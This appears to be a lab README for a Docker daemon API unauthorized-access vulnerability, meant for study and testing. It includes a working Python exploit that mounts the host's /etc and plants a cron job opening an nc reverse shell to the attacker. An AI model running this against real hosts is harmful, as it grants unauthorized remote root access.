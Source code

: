 # Docker daemon api unauthorized access exploit

[中文版本(Chinese version)](README.zh-cn.md)

Reference Links：

- http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

## Vulnerability environment

Enter the following command to build and run the vulnerability environment:

```
docker-compose build
docker-compose up -d
```

## Exploit

Start a container, and mount the host `/etc` folder to the container, then we will have read/write access to any files.

We can put the commands in crontab configuration file to reverse shell

```python
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

Reverse shell exploit by injecting commands in crontab:

![](1.png)
